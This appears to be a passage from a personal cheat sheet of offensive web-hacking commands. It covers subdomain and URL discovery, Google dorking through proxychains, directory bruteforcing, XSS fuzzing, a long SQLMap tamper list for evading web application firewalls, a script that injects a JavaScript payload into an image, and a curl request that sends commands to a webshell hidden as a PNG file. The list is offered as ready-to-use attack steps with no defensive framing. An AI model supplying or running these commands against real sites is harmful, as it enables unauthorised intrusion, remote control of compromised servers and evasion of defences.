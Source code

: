 ```shell
sudo python -m SimpleHTTPServer 80
```


## Offensive Tool Commands
### Find subdomains of a website and save to file
```shell
assetfinder domain.com | anew filename
```
### Find if subdomains of website are alive or not
```shell
cat subdomain_list_file | httprobe | anew probed_urls
```
### Get all current and previous urls of a domain
```shell
gau domain.com | anew all_urls
```
### Perform request to webshell with command / C&C
```shell
curl -X POST https://website.com/assets/somefolder/cli.PNG -d "_=command"
```
### Inject JS payload inside image
```shell
python BMPinjector.py -i image.bmp "<scRiPt y='><'>/*<sCRipt* */prompt()</script"
```
### Get all parameters in a domain
```shell
python3 ~/ParamSpider/paramspider.py --domain https://www.website.com/ -o ~/WorkingDirectory/website_directory/pspider
```
### SQLMap tampers
```shell
--tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,percentage,randomcase,randomcomments,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
```
### Basic XSS url fuzzing
```shell
python3 ~/XSStrike/xsstrike.py -u https://website.com/param=FUZZ --fuzzer
```
### Clean memory items and cache on run
```shell
sudo pandora bomb
```
### Google dorking
```shell
godork -q "inurl:search.php=" -p 50 | tee results.txt
```
### Google dorking + proxychains
```shell
proxychains godork -q "inurl:search.php=" -p 50 | tee results.txt
```
### Directory bruteforcing
```shell
gobuster dir -url https://website.com/ | anew dirs && dirb https://website.com | anew dirs
```
